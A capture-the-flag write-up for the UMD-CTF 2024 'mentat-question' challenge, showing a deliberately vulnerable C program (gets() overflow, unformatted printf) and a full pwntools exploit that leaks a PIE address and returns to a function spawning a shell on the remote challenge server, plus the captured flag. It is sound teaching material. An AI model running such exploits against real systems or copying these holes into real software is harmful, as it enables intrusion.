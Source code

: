 ```yaml
---
layout: writeup
category: UMD-CTF-2024
chall_description:
points: 432
solves: 71
tags: pwn buffer-overflow gets format-string ret2win PIE
date: 2024-4-28
comments: false
---
```


Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...  

`nc challs.umdctf.io 32300`  

[mentat-question.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question.c)  
[mentat-question](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question)  
[Dockerfile](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/Dockerfile)  

---

We're provided a C source file and an ELF binary. Here's the source:  

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}

```

The ELF binary is x86_64, and running checksec on it tells us it has the NX and PIE protections enabled. For those who are unaware, NX disallows execution of bytes on the stack (or in certain memory areas). PIE, meanwhile, randomizes the base address of the ELF. Essentially, instead of the base address being a constant 0x40000000 or whatever, which would allow us to always know the address of every function, it randomizes this base address, preventing the user from gaining knowledge of what the address of every function is. This makes it harder for the user to return to a specific memory address in an attack.  

Let's check out the C code now and see what vulnerabilities we can find.  

There don't appear to be any major vulnerabilities in the main function, so let's see what we can find in calculate(). First things first, we need to set num2 to be less than 1. For some reason, inputting num2 as 0 or -1 wasn't actually working for me locally, but through stress testing, I realized that simply sending 3 new lines actually allowed access into the if statement code block.  

Here, there are now two obvious vulnerabilities. Firstly, `gets(buf)` is called. gets() is a function that is well-known to allow unbounded input, so basically free buffer overflow. Secondly, `printf(buf)` is called. With printf(), whenever a program prints out a user-controlled variable, a format specifier must be used. Otherwise, it allows a malicious user to write their own format specifiers into the output variable, which can allow information to be gained about memory on the stack.  

However, there is one slight problem with entering any sort of input into buf. The line `strncmp(buf, "Yes", 3) == 0` attempts to ensure that the user input is set to "Yes". If this check fails, the program exits. Fortunately, however, the way this check is implemented makes it so that it only checks if the first 3 bytes of buf are equal to "Yes". Therefore, we can simply enter whatever payload we want after "Yes" and pass the check!  

Now we can develop a process to return to the win function, secret().  

Firstly, we need to determine the PIE offset. We need the PIE offset to calculate the address of the secret() function. We can do this by leaking the address of main() or some other function, since the offset between main() and secret() is known and constant, regardless of PIE.  

Once we determine the PIE offset, we can calculate the address of the secret() function, and then override RIP (the return address) on the stack to return to secret().  

Let's first deal with finding the offset. Well, we know calculate() is called from main(), so main's address has to be on the stack, wherever RIP is located, since the program will need to return to it later.  

So, we can first find the offset of the RIP with pwntools's cyclic() and cyclic_find() functions. Here's the script for that:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

p = process('./mentat-question')
gdb.attach(p)

# NOTE: logic starts here

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

send_payload(b'Yes' + cyclic(1024))
# after checking out in GDB, I found that RSP, when the program ran into SIGSEV, was set to "aaagaaah"  
ret = cyclic_find('aaagaaah')

p.interactive()
```

Note that you should be using the pwndbg extension for GDB. It helps a lot!  

Now that we have the offset of RIP, we can now use the format string vulnerability to essentially read the stack. I initially tried just sending a string of many "%p", but it actually ended up overriding RIP on the stack, which triggered a SIGSEV. So that didn't work.  

Instead, we can perform an arbitrary read, which will allow us to read the memory of a certain offset on the stack. Through a bit of testing, I was able to figure out that the offset we needed was equal to `ret - 2`:  

```py
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)
```

The way I confirmed was simply by running `print 'main'` in GDB every time after the Python script finished execution, which told me the address of main() for that current run. I kept on changing the +/- offset on ret until I got the address of main().  

Now that we have the address of main(), we can simply calculate the PIE offset and thus the address of secret() as follows:  

```py
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']
```

Finally, we can override RIP and return to secret to pop a shell!  

```py
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))
```

Now we can change the target to the remote service, run the script, do "cat flag.txt", and get the flag!  

Here's the full script:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./mentat-question')
# gdb.attach(p)

p = remote('challs.umdctf.io', 32300)

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

# NOTE: find return address
# send_payload(b'Yes' + cyclic(1024))

ret = cyclic_find('aaagaaah')

# NOTE: get main address
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)

# NOTE: calculate secret() address
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']

# NOTE: ret2win
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))

p.interactive()
```

And here's the flag!  

    UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}